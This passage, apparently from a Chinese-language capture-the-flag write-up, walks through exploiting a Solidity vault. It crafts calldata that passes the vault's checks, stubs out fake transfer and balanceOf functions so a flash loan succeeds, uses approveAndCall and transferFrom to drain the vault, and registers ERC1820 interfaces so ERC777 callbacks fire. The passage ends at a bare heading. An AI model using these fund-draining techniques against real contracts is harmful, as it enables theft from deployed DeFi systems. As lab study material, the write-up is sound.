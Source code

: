 根据代码我们可以得到：

- data中的第一个参数必须是msg.sender，因为是金库调用的，因此第一个参数必须是金库的地址。
- `doFirstParamEqualsAddress()`要求参数的长度必须大于或等于68，也就是说我们的参数至少是两个
- innerdata必须是一个可以执行的方法，而且必须执行成功，那么我们可以让它来执行一个静态方法比如`balanceOf()`

因此编码可以得到如下：

```solidity
bytes memory innerData = abi.encodeWithSelector(ERC20Like.balanceOf.selector, address(vault), 0);
```

4.

为了闪电贷执行成功，需要攻击合约实现`balanceOf()`和`transfer(`)方法，因为闪电贷会执行token的这两个方法

```solidity
    function transfer(address, uint256) external returns (bool) {
        // 在闪电贷方法中有一行： ERC20Like(token).transfer(msg.sender, amount);
        // 因此攻击合约要实现这个方法进行伪装
        return true;
    }

    function balanceOf(address) external view returns (uint256) {
        // 在闪电贷方法中有一行： ERC20Like(token).balanceOf(address(this));
        // 因此攻击合约要实现这个方法进行伪装
        return 0;
    }
```

5.授权成功后，就直接转账即可

```solidity
SandLike(token).approveAndCall(vault, amount, data);  
// vault approve给本合约之后，我们就可以用transferFrom进行转账了
ERC20Like(token).transferFrom(vault, address(this), ERC20Like(token).balanceOf(vault));
```

#### 3.3一些其他的限制

根据ERC777的规则，我们需要额外增加这些内容

```solidity
        // AMP合约中有一个这个东西：string internal constant AMP_TOKENS_RECIPIENT = "AmpTokensRecipient";
        // 调用 ERC1820 注册表合约的 setInterfaceImplementer函数 注册AmpTokensRecipient接口实现（接口的实现是自身），
        // 这样在收到代币时，会回调 tokensReceived函数
        EIP1820Like(EIP1820).setInterfaceImplementer(address(this), keccak256("AmpTokensRecipient"), address(this));
        // PNT合约中有一个这个东西：bytes32 constant private _TOKENS_RECIPIENT_INTERFACE_HASH = 0xb281fc8c12954d22544db45de3159a39272895b169a852b314f9cc762e44c53b;
        // 调用 ERC1820 注册表合约的 setInterfaceImplementer函数 注册ERC777TokensRecipient接口实现（接口的实现是自身），
        // 这样在收到代币时，会回调 tokensReceived函数
        EIP1820Like(EIP1820).setInterfaceImplementer(address(this), keccak256("ERC777TokensRecipient"), address(this));
```

## 解题
